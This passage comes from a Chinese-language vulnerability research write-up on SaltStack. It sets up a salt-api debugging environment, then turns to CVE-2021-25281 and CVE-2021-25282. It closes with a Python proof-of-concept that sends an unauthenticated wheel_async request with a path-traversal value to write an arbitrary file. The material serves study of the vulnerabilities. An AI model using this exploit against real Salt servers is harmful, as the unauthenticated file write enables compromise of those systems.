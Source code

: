 /etc/salt/master.d/autoaccept.conf

```
auto_accept: True
```

启动测试一下

```
sudo salt-master
sudo salt-api -l all #打印所有信息
```

用vscode打开salt项目，创建lanuch.json文件

```
`{`
    // Use IntelliSense to learn about possible attributes.
    // Hover to view descriptions of existing attributes.
    // For more information, visit: https://go.microsoft.com/fwlink/?linkid=830387
    "version": "0.2.0",
    "configurations": [
        `{`
            "name": "FA1C0N",
            "type": "python",
            "request": "launch",
            "program": "/usr/local/bin/salt-api",
            "console": "integratedTerminal",
            "args": [
              "-l","all"
            ],
            "sudo": true,
        `}`
    ]
`}`
```

debug的时候先开个终端启动salt-master，再用vscode debug salt-api



## wheel_async未授权访问（CVE-2021-25281）&amp; wheel/pillar_roots.py文件任意写漏洞 (CVE-2021-25282 )

直接访问salt-api的端口可以看到所有能调用的函数

[![](https://p2.ssl.qhimg.com/t0148d424724e7776b0.png)](https://p2.ssl.qhimg.com/t0148d424724e7776b0.png)

按照云鼎实验室大佬**1mperio**的分析文章，salt-api在2020年的CVE-2020-25592就是因为ssh模块的授权问题导致了后续的RCE。~~虽然不是同一个时间，但是同一个地点，今天给大家接着表演一个未授权。~~不过这次出问题的是同胞兄弟wheel_async模块。

能不能任意调用，用公开的验证程序测一下就知道了

```
import requests

url = "http://127.0.0.1:8000/run"
json_data = [`{`
    "client": "wheel_async",
    "fun": "pillar_roots.write",
    "data": "FA1C0N is here",
    "path": "../../../../../tmp/FA1C0N",
    "username": "password",
    "password": "username",
    "eauth": "pam"
`}`]

r = requests.post(url, json=json_data, verify=False,proxies=proxies)
print(r.text)
```
